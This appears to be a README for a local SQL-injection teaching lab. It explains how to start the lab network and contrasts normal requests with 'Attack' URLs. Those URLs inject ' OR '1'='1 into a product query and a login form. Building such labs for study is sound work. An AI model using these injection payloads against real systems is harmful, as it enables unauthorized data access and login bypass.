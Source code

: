 # Start

Start the network with `./start_linux_network.sh`. You have to wait a bit until the databases are populated.

## Overview

To get an overview of the examples goto http://127.0.0.1:8781/

# Listing Example

## Standard query

http://127.0.0.1:8781/list_products/products_page.php?value=100

## Attack

http://127.0.0.1:8781/list_products/products_page.php?value=100' OR '1'='1

# Login Example

## Standard

http://127.0.0.1:8781/login/login.php

Enter 'admin', 'admin'

## Attack

http://127.0.0.1:8781/login/login.php?user=admin&password=xyz' OR '1'='1

